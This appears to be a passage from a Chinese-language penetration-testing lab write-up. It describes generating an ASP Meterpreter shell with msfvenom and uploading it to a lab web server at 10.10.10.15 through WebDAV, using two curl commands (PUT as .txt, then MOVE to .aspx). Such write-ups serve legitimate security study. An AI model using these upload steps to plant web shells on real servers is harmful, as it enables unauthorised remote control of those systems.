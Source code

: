 ## Meterpreter

利用msfvenom生成asp shell，然后上传到Web服务器即可

![截图](9d15a326bb804b203b64399dbdb69107.png)

有两种上传方式：

### curl

```
root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx 
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
```

![截图](af9cd60626e27a033da07f682355557b.png)
